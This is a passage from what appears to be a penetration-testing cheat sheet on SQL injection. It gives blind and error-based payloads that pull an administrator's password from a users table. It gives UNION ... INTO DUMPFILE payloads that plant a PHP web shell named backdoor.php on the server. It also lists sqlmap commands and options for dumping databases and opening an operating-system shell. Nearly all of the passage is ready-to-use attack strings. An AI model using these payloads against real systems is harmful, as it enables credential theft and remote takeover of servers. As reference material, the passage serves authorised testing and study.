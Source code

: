 Use the time-based SQLi when you are not able to see the results.

---

Check for the existance/correctness:

```fundamental
' AND (SELECT 'exists' FROM users) = 'exists

' AND (SELECT 'exists' FROM users WHERE username = 'administrator') = 'exists

' AND (SELECT 'correct' FROM users WHERE username = 'administrator' AND length(password) < 8 ) = 'correct

' AND (SELECT CASE substring(password,1,1) WHEN '$' THEN to_char(1/0) ELSE 'correct' END FROM users WHERE username = 'administrator') = 'correct

'||(SELECT CASE substring(password,1,1) WHEN '$' THEN to_char(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'
```

---

Inject a [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request:

```fundamental
' UNION SELECT '', '', '', '<?php if(isset($_GET["command"])){echo shell_exec($_GET["command"]);} ?>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 

' UNION SELECT '', '', '', '<?php $p="command";$o=null;if(isset($_SERVER["REQUEST_METHOD"])&&strtolower($_SERVER["REQUEST_METHOD"])==="get"&&isset($_GET[$p])&&($_GET[$p]=trim($_GET[$p]))&&strlen($_GET[$p])>0){$o=@shell_exec("($_GET[$p]) 2>&1");if($o===false){$o="ERROR: The function might be disabled.";}else{$o=str_replace("<","&lt;",$o);$o=str_replace(">","&gt;",$o);}} ?><!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><title>Simple PHP Web Shell</title><meta name="author" content="Ivan Šincek"><meta name="viewport" content="width=device-width, initial-scale=1.0"></head><body><pre><?php echo $o;unset($o);unset($_GET[$p]); ?></pre></body></html>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```

**To successfully inject a web shell, the current database user must have a write permission.**

### sqlmap

Inject SQL code into request parameters:

```fundamental
sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test -p password
```

| Option | Description |
| --- | --- |
| -u | Target URL |
| -H | Extra HTTP header |
| --data | Data string to be sent through POST |
| --cookie | HTTP Cookie header value |
| --proxy | Use a proxy to connect to the target URL (\[protocol://\]host\[:port\]) |
| -p | Testable parameter(s) |
| --level | Level of tests to perform (1-5, default: 1) |
| --risk | Risk of tests to perform (1-3, default: 1) |
| -a | Retrieve everything |
| -b | Retrieve DBMS banner |
| --dump-all | Dump all DBMS databases tables entries |
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter, or VNC |
| --sqlmap-shell | Prompt for an interactive sqlmap shell |
| --wizard | Simple wizard interface for beginner users |
| --dbms | To do. |
